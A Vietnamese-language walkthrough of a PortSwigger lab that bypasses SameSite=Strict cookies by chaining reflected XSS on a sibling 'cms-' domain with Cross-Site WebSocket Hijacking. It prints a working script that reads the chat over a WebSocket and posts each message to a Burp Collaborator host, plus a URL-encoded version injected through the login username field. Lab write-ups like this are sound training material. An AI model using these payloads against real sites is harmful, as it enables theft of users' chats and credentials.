








# Write-up: SameSite Strict bypass via sibling domain

### Tổng quan
Khai thác lỗ hổng Cross-Site WebSocket Hijacking (CSWSH) kết hợp với Cross-Site Scripting (XSS) trên một sibling domain (`cms-lab-id.web-security-academy.net`) để bypass thuộc tính `SameSite=Strict` của cookie phiên trên domain chính (`lab-id.web-security-academy.net`). Ứng dụng live chat sử dụng WebSocket tại `wss://lab-id.web-security-academy.net/chat` mà không có token bảo vệ, cho phép lấy nội dung chat. Payload XSS trên sibling domain thực thi mã CSWSH, gửi nội dung chat (chứa password của `carlos`) đến Burp Collaborator, sau đó sử dụng thông tin đăng nhập để hoàn thành lab.

### Mục tiêu
- hai thác lỗ hổng XSS trên sibling domain để thực thi mã CSWSH, lấy nội dung chat chứa password của `carlos` qua Burp Collaborator, sử dụng thông tin đăng nhập để truy cập tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập trang live chat /chat và quan sát yêu cầu GET trong Burp Proxy:
- **Quan sát**:
    - Response không chứa token bảo vệ, gợi ý khả năng khai thác Cross-Site WebSocket Hijacking (CSWSH) nếu bypass được `SameSite` cookie.
    
    - Trong Proxy Websocket history mỗi khi reload page hiển thị READY
        

2. **Kiểm tra CSWSH**
- Tạo payload CSWSH và đưa vào Exploit Server để kiểm tra khả năng lấy nội dung chat:
    ```java
    <script>
    var ws = new WebSocket('wss://0a9100cf0343f44c80b0bca500b700a5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://z77el42i50e99dstwktc5bw5rwxnlh96.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
    </script>
    ```
- Store và view exploit trong Exploit Server.
- **Phản hồi**: Nhận được request POST tại Burp Collaborator với nội dung chat, xác nhận CSWSH khả thi nếu bypass được `SameSite=Strict`:
    

- Quan sát response của request `GET /chat` lần nữa ta thấy `SameSite=Strict` -> Ngăn chặn trình duyệt đưa cookie này vào các yêu cầu liên kết trang 
    

- Quan sát response của GET `/resources/js/chat.js:`    
    - **Quan sát**: Header `Access-Control-Allow-Origin`: `https://cms-lab-id.web-security-academy.net` cho thấy `cms-lab-id` là `sibling domain`, có thể được phép tương tác với domain chính:
        

3. **Khai thác XSS trên sibling domain**
- Truy cập `https://cms-lab-id.web-security-academy.net/login`, đăng nhập thử với tài khoản wiener:peter.
    
- **Quan sát**: Username được reflected trong response, thử với payload XSS:
    `username=<script>alert(1)</script>&password=peter`
    - **Phản hồi**: Hộp thoại `alert(1)` xuất hiện, xác nhận lỗ hổng Reflected XSS trong trường `username`:
       .png)

4. **Khai thác (Exploitation)**
- Mã hóa URL toàn bộ payload CSWSH:
    ```
    %3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%39%31%30%30%63%66%30%33%34%33%66%34%34%63%38%30%62%30%62%63%61%35%30%30%62%37%30%30%61%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%7a%37%37%65%6c%34%32%69%35%30%65%39%39%64%73%74%77%6b%74%63%35%62%77%35%72%77%78%6e%6c%68%39%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
    ```
- Tạo payload XSS trong Exploit Server để kích hoạt CSWSH:
```html
<script>
  document.location = "https://cms-lab-id.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%39%31%30%30%63%66%30%33%34%33%66%34%34%63%38%30%62%30%62%63%61%35%30%30%62%37%30%30%61%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%7a%37%37%65%6c%34%32%69%35%30%65%39%39%64%73%74%77%6b%74%63%35%62%77%35%72%77%78%6e%6c%68%39%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=peter";
</script>
```
- Store và view exploit để kiểm tra.
- **Phản hồi**: Nhận được dữ liệu chat tại Burp Collaborator:
    ```json    
    {"user":"Hal Pline","content":"No problem carlos, it&apos;s f8saj9tjzyjioeve1r3n"}
    ```     
    

- Sử dụng thông tin từ dữ liệu chat: `carlos`:`f8saj9tjzyjioeve1r3n` đăng nhập và hoàn thành lab.
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XSS trên sibling domain để thực thi mã CSWSH, bypass thuộc tính `SameSite=Strict` của cookie phiên, lấy nội dung chat chứa thông tin đăng nhập của nạn nhân.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trên các domain liên quan, triển khai token bảo vệ WebSocket, và cấu hình CORS chặt chẽ để ngăn chặn các cuộc tấn công CSWSH và XSS.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XSS trên sibling domain để thực thi CSWSH, bypass `SameSite=Strict` và lấy thông tin đăng nhập, nhấn mạnh tầm quan trọng của việc bảo vệ input người dùng, cấu hình CORS, và sử dụng token cho WebSocket. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*